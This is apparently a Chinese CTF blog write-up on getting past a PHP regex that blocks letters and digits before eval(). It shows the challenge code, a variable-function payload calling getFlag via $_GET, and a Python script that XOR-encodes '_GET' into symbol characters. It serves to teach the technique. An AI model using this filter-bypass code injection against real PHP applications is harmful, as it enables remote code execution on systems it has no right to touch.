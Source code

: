```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      PHP 绕过 preg_match 数字与字母的正则表达式          # 标题
subtitle:   梅子酒天下第一  #副标题
date:       2018-08-06              # 时间
author:     RTL                     # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
  - CTF
  - Web
  - Php
---
```


# Writeup

- [环境地址](http://www.rowtoolong.cn/MeizijiuPhp.php)
- **求不要日站**

```php
<?php
include 'MeizijiuPhpFlag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>40){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```

- 听了梅子酒师傅吹了一天水，我的心情是崩溃的...我也想单手日站，我也想走向人生巅峰
- 刚开始拿到这个题，作为一个真小白，对 php 语法不懂，看了一下才明白，要绕过字母与数字的正则表达式，然后执行 getFlag() 函数，看着好简单？Maybe...

- 首先我先想到的是 JSFuck? ...40字符，溜了溜了
- 然后开始运用程序员的最基础技能，搜索引擎...有一个说利用 Array 强制转换字符串后变成 Array，然后通过 ++ 来得到每一个字符的...又是 40 字符限制了
- 之后我开始思考，想到了 变量可以用'_'命名，所以做了一些尝试，但是碍于能力有限，失败了
- 跟 Zhangflu 学到了根据数学知识 一个数异或另一个数两次可以得到这个数，但是将    getFlag 编码后，只会生成字符串，并不会执行该函数，思路断了...

- 一大佬发了一个 payload, 未转码前的为

```sql
code=$_='_GET';${$_}[_]();&_=getFlag
```

- 我被彻底的惊艳到了...真的很强，很巧妙，为很容易理解，在此不多赘述
- 将 _GET 转码后得到一段字符，转码脚本如下

```py
# -*- coding:utf8 -*-

get = "_GET"
code = "~`!@#$%&*()-=+_[]{};:<>,.?/|"

result_1 = ""
result_2 = ""

for x in get:
  for y in code:
    if chr(ord(x) ^ ord(y)) in code:
      result_1 += y
      result_2 += chr(ord(x) ^ ord(y))
      break

print(result_1 + '^' + result_2)



```